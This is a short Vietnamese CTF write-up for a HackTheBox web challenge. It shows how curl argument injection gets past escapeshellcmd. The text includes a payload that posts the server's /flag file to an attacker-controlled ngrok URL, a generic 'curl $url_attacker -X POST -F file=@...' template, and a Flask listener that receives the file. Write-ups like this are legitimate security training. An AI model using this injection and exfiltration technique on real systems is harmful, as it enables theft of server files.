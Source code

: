 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này cho ta dùng __curl trong linux__ để crawl đến web khác,  ta không thể thực hiện command injection vì hàm __escapeshellcmd($host)__ đã chặn.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ trong linux có thể upload file đến một máy web khác bằng lệnh như sau __curl $url_attacker -X POST -F file=@@/đường_dẫn_file __ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

ta chạy web để bắt file được gửi về, có thể sử dụng đoạn mã python sau
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)
   ``` 
   
sau đó nhập payload này:  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag`
như vậy ta sẽ nhận tệp flag gửi về __HTB{curl_pwn4g3_3n_r0ut3!}__
<br /> dùng ngrok để tạo ra điểm truy cập cho chính máy của mình, ta sẽ có đoạn cái đường dẫn url này  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io `

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/web_health_check.zip)
